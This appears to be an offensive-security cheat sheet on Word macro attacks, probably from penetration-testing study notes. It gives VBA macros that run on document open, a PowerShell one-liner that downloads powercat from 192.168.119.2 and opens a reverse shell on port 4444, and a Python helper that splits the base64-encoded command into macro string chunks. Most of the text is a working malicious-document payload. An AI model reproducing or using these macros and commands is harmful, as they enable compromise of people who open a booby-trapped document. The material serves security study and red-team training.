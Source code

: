 > **.doc** and **.docm** file types have macro saved in the document. **.docx** does not.

Macro to run Powershell:
```vb
Sub AutoOpen() 
	MyMacro 
End Sub 

Sub Document_Open() 
	MyMacro 
End Sub 

Sub MyMacro() 
	CreateObject("Wscript.Shell").Run "powershell" 
End Sub
```


## Reverse shell

PS command to be used:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

Use Python to split the b64 encoded version of the above command into chunks of 50 chars each:
```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." 

n = 50 

for i in range(0, len(str), n): 
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Macro to create reverse shell in Powershell using Powercat:
```vb
Sub AutoOpen() 
	MyMacro 
End Sub 

Sub Document_Open() 
	MyMacro 
End Sub 

Sub MyMacro() 
	Dim Str As String 
	
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU" 
	Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd" 
	Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB" 
	... 
	Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA" 
	Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA" 
	Str = Str + "A== "
	
	CreateObject("Wscript.Shell").Run Str
End Sub


```
